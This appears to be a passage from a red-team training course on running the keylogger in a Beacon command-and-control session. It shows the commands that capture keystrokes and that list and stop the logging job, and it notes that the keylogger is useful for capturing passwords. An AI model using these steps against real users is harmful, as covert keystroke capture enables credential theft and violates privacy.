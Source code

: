 
A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive information.

```

beacon> keylogger
[+] received keystrokes from *Untitled - Notepad by bfarmer
```
 

All keystrokes can be seen at _View > Keystrokes_.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/c6d/013/c33/keylogger.png)

  

The keylogger runs as a job that can be stopped with the `jobkill` command.
```

beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 6    0     keystroke logger

beacon> jobkill 6
```
